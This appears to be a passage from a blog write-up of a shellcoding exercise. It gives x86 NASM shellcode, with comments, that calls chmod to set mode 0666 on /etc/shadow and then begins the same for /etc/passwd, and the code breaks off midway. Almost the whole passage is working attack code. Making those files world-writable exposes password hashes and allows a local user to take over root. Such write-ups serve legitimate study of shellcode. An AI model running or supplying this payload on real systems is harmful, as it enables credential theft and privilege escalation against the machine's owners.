 Follows the smallest version I managed to write:

```nasm
; Author: Robert C. Raducioiu (rbct)

global _start

section .text

_start:

    ; clear ECX, EAX, EDX
    xor ecx, ecx
    mul ecx

    ; store "/etc" into ESI
    ;   this allows me to reuse this value for the second call to chmod
    mov esi, 0x6374652f

    ; add a NULL byte (in this case a NULL DWORD) at the end of the string
    ;   pushed to the stack
    push eax

    ; store the string "/etc//shadow" on the stack
    push dword 0x776f6461
    push dword 0x68732f2f
    push esi
```

{% sidenote Remember that when you push a string to the stack, the bytes must be **reversed**, as **the stack grows downward**  %}

```nasm
    ; 1st argument of chmod(): const char *pathname
    ; store into EBX the pointer to "/etc//shadow"
    mov ebx,esp

    ; set EAX to 0x0000000f -> chmod() syscall
    add al, 0xf

    ; 2nd argument of chmod(): mode_t mode
    ; in this case ECX is set to the binary value 110110110
    mov cx,0x1b6

    ; call chmod()
    int 0x80

    ; set EAX to 0 and push it to the stack;
    ; like before, it acts as the string terminator
    mov eax, edx
    push eax

    ; push "/etc//passwd" to the stack
    push dword 0x64777373

    ; also set EAX to 0x0000000f -> chmod() syscall
    add al, 0xf
    push dword 0x61702f2f

    ; reuse the value of "/etc" from before
    push esi
    
    ; 1st argument of chmod(): const char *pathname
    ; store into EBX the pointer to "/etc//passwd"
    push esp
```